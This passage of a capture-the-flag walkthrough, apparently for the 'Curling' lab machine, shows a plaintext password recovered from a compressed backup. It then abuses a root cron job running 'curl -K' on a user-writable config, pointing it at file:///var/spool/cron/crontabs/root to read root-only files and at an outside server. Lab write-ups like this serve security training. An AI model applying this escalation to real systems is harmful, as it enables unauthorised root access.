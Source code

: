 ```
www-data@curling:/tmp$ file 3
3: bzip2 compressed data, block size = 900k
www-data@curling:/tmp$ bzcat 3
password.txt0000644000000000000000000000002313301066143012147 0ustar  rootroot5d<wdCbdZu)|hChXll
www-data@curling:/tmp$ bzcat 3 > 4
www-data@curling:/tmp$ file 4
4: POSIX tar archive (GNU)
www-data@curling:/tmp$ tar -xvf 4
password.txt
www-data@curling:/tmp$ cat password.txt
5d<wdCbdZu)|hChXll
```
Now we can use this password to login as floris.  
As we do have password, if we want we can login via ssh to get a more reliable connection.

## Root
Once we are logged in as floris, as we may have noticed from previous steps, we can find a directory "admin-area".  
If we browse this directory, we will find two files:
```
floris@curling:~$ cd admin-area/
floris@curling:~/admin-area$ ls -la
total 28
drwxr-x--- 2 root   floris  4096 May 22  2018 .
drwxr-xr-x 6 floris floris  4096 May 22  2018 ..
-rw-rw---- 1 root   floris    25 Dec 15 22:03 input
-rw-rw---- 1 root   floris 14236 Dec 15 22:03 report
floris@curling:~/admin-area$ date
Wed Dec 15 22:03:37 UTC 2021
```
As we can see there are two files: input and report, both modified in the current time. So we can suppose that there is a cron that somehow is editing this files.  
If we inspect input we can see the following:
```
floris@curling:~/admin-area$ cat input
url = "http://127.0.0.1"
```
now if we use SimpleHTTPServer and change this file setting our ip instead of localhost, we can se that a request hits our webserver.  
So now we can suppose that there is a curl that gets executed every minute inside crontab and write output inside the 'report' file.
to verify this we can change the input file as follows:
```
url = "file:///var/spool/cron/crontabs/root"
```
and in 'report' file we can see the following:
```
[... SNIP ...]
# m h  dom mon dow   command
* * * * * curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
* * * * * sleep 1; cat /root/default.txt > /home/floris/admin-area/input
```
Instead of guessing or using this kind of privileged LFI, we can run [pspy64](https://github.com/DominicBreuker/pspy) with user floris and see that we can get the same information retrived above:
```
2021/12/15 22:32:01 CMD: UID=0    PID=4495   | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input
2021/12/15 22:32:01 CMD: UID=0    PID=4494   | /usr/sbin/CRON -f
2021/12/15 22:32:01 CMD: UID=0    PID=4493   | /usr/sbin/CRON -f
2021/12/15 22:32:01 CMD: UID=0    PID=4498   | curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```
Now, Obviously now we can cat /root/root.txt file, but we don't want that, we want the shell!  
To achieve this, we can inspect curl manual for -K